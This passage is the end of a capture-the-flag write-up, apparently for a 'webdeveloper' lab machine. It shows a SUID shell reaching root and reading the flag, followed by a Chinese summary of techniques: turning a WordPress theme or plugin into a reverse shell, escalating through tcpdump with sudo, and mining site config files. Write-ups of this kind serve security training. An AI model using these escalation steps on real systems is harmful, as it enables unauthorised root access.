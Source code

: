 ```bash
webdeveloper@webdeveloper:/tmp$ ./shell -p
shell-4.4# id
uid=1000(webdeveloper) gid=1000(webdeveloper) euid=0(root) groups=1000(webdeveloper),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
```

```bash
shell-4.4# cd /root
shell-4.4# ls
flag.txt
shell-4.4# cat fla*
Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b34f6c5d290
```

# 总结

kali 中 flie 命令可以查看文件类型

worldpress 后台提权可以是修改相关主题或插件为反弹shell，再访问触发即可

tcpdump 具有 sudo 权限时可以提权

有一定权限后，可以查看网站的配置信息，从而获得更多的信息


